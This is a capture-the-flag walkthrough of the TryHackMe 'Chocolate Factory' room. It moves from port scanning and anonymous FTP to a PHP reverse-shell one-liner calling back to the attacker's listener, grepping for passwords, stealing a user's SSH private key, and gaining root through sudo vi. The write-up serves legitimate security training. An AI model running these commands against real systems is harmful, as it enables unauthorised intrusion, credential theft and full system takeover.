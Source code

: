 # Chocolate Factory

**Room Link:** [https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

**Kali**

```
ftp $VICTIM
Username: anonymous
>binary
>passive
>mget *
```

<figure><img src="../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (2).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can run commands here and we see the key\_rev\_key file

![](<../../.gitbook/assets/image (2) (8).png>)



We go there by the url and we can download it

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings key_rev_key
```

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





### Web Shell

**Web**

```
php -r '$sock=fsockopen("$KALI",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvp 4444
```

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /var/www/html/
grep password *
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

### Shell

I was not able to su into charlie with the password, the credentials did work for the web login but it just brought me to the command page.

**Victim**

```
cd /home/charlie/
cat teleport
```

I copied the teleport private key to kali

**Kali**

```
subl teleport 
chmod 700 teleport
ssh -i teleport charlie@$VICTIM  
```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Exploit Link:** [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)

Charlie can run vi with no passwd so I just followed the link above to become root

**Victim**

```
sudo -l
sudo vi -c ':!/bin/sh' /dev/null
```

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>



























































